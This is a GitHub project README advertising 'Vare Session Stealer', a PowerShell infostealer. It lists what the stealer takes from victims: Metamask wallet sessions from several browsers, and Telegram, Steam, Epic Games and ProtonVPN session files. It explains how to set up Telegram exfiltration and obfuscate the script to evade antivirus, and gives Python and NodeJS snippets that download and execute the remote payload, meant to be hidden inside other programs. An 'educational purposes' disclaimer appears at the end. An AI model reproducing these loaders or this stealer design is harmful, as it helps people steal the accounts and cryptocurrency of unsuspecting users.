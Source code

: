 
<!-- PROJECT LOGO -->
<br />
<p align="center">
  <kbd>
  <a href="https://github.com/saintdaddy/Vare-SessionStealer">
    <img src="https://media.discordapp.net/attachments/1096469835489235079/1096626377035370627/Comp_1_00001sss.png?width=558&height=558" alt="Logo" width="250" height="250">
    </kbd>
  </a>

  <h3 align="center">Vare Session Stealer</h3>

  <p align="center">
    Powershell Session Stealer
    <br />
    <a href="https://t.me/varestealer"><strong>Telegram Channel</strong></a>
    <br />
    <br />
    <a href="https://github.com/saintdaddy/Vare-SessionStealer/issues">Report Bug</a>
    ·
    <a href="https://github.com/saintdaddy/Vare-SessionStealer/issues">Request Feature</a>
    ·
    <a href="https://github.com/saintdaddy/Vare-SessionStealer/pulls">Send a Pull Request</a>
  </p>
</p>

<!-- ABOUT THE PROJECT -->

## About The Project

**Vare Session Stealer** is a file stealer that aims to bypass Antiviruses during Runtime and Scantime using Powershell

## Features
```batch
┌──(Saint@root)-[~/]
└─$ cat VareSessionStealer

@Sessions
▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬
| Metamask Session File - From Opera, OperaGX, Chrome [Profile 1,2,3]
| Telegram Session File - From Base Path
| Steam Session File - From Base Path
| Epicgames Session File - From Base Path
| ProtonVPN Session File - From Base Path
▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬
```


## Installation
1. Download Project
2. Change `$chatid` And `$bottoken` With Yours
3. Obfuscate "PS1" File Using [AES Encoder](https://github.com/Chainski/AES-Encoder)
4. You're Done!

## Integrate with your code
Upload the code you created and obfuscate to places that provide direct downloads such as discord and get the link (ex; discord.com/attchments/4455/file.ps1)
### Python
```python
import subprocess

powershell_cmd = "iex (Invoke-WebRequest -Uri 'YOUR FILE URL' -UseBasicParsing).Content"

subprocess.run(["powershell", "-Command", powershell_cmd], capture_output=False, text=False)
```
Change "YOUR FILE URL" then add this to your code

### NodeJS
```js
const { exec } = require('child_process');

const powershellCmd = "iex (Invoke-WebRequest -Uri 'YOUR FILE URL' -UseBasicParsing).Content";

exec(`powershell -Command "${powershellCmd}"`, (error, stdout, stderr) => {});
```
Change "YOUR FILE URL" then add this to your code - i havent tested it but it will work 🤓
<!-- CONTRIBUTING -->
## 🤝 Contributing

If you want to support me and my project, you can do the following, **thank you**

1. Fork the Project
2. Star the Project
3. Open a Pull Request

## TODO
- Anti Virustotal / AntiVM
- More Sessions (Gaming,Vpns,etc...)
- Anti Analysis
- New Obfuscation (Maybe 🤓)

## 🛑 Note
I am not responsible for the damages caused by this code, everyone will use this code under their own responsibility, the code is shared for educational purposes. POC

<!-- CONTACT -->
## 📫 Contact

https://t.me/varestealer
